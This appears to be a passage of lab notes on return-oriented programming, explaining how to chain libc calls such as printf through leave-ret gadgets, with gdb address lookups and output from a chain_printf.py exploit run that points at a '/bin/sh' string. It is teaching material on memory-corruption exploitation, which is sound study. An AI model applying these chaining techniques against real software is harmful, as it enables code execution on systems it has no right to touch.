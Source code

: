 

## Example 3 --- Chaining DLL Function Calls (e.g., `printf`)

**key takeaway 1:**
Because of how the addresses for library functions are resolved (re: Procedure Linkage Table - PLT),
we cannot simply jump into `system` (or other library calls) at the address JUST AFTER the function prologue.
(Use gdb to confirm this...)

```bash
gdb
b main
r
disas baz
disas printf
```
**key takeaway 2:**
Instead, we can jump to an "empty function" (actually `empty+3`, skipping `empty()`'s prologue) between calls to
 emulate the affect of jumping over a function prologue.
There is no actual "empty function", but what we can do is jump to an instance of a `leave-ret`
(a `leave` instruction followed by a `ret` instruction.)

```bash
$ gdb -q stack_rop
Reading symbols from stack_rop...(no debugging symbols found)...done.
gdb-peda$ b foo
gdb-peda$ r
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0xb7e51670 <__printf>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
gdb-peda$ disas foo
Dump of assembler code for function foo:
    0x0804851b <+0>:	push   %ebp
    0x0804851c <+1>:	mov    %esp,%ebp
    0x0804851e <+3>:	sub    $0x78,%esp
 => 0x08048521 <+6>:	mov    %ebp,%eax
    ...
    0x08048580 <+101>:	leave
    0x08048581 <+102>:	ret
```
Update `chain_printf.py` with the above addresses, then run:  
```bash
chain_printf.py && stack_rop
# The '/bin/sh' string's address: 0xbffffef0
# Address of buffer[]:  0xbfffeab8
# Frame Pointer value:  0xbfffeb28
# Diff between buffer & frame pointer = 112
# /bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh/bin/sh
```
